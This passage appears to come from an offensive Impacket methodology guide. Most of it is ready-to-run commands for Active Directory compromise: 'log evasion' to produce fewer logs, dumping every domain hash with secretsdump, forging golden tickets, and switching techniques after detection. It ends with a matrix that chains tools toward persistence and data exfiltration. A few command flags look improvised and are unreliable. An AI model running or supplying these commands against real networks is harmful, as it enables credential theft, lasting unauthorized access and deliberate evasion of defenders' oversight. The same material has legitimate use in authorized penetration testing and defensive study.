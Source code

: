 ### Log Evasion
```bash
# Use Kerberos authentication (generates fewer logs)
python3 psexec.py -k domain.com/user@target.domain.com

# Use alternative ports when possible
python3 smbclient.py domain.com/user:password@target.domain.com -port 8080

# Minimize command execution
python3 wmiexec.py domain.com/user:password@target.domain.com -silentcommand "minimal_command"
```

## Emergency Response Scenarios

### Rapid Domain Compromise
```bash
# If you get DA quickly
python3 secretsdump.py domain.com/domain_admin:password@dc.domain.com -just-dc -outputfile all_hashes.txt

# Create multiple golden tickets
python3 ticketer.py -nthash krbtgt_hash -domain-sid domain_sid -domain domain.com administrator
python3 ticketer.py -nthash krbtgt_hash -domain-sid domain_sid -domain domain.com service_account
```

### Detection Response
```bash
# If detected, switch techniques
# From SMB to WMI
python3 wmiexec.py instead of psexec.py

# From cleartext to hash authentication
Use -hashes parameter instead of passwords

# From direct to relay attacks
python3 ntlmrelayx.py instead of direct authentication
```

## Tool Combination Matrix

| Primary Goal | Initial Tool | Follow-up Tools | Final Objective |
|-------------|-------------|----------------|-----------------|
| Credential Harvest | GetNPUsers.py | hashcat → secretsdump.py | Domain Admin |
| Lateral Movement | psexec.py | secretsdump.py → wmiexec.py | Network Spread |
| Privilege Escalation | rbcd.py | getST.py → psexec.py | System Admin |
| Persistence | ticketer.py | psexec.py → wmipersist.py | Long-term Access |
| Data Exfiltration | smbclient.py | find → get | Sensitive Data |

This methodology guide provides structured approaches for common attack scenarios using Impacket tools.
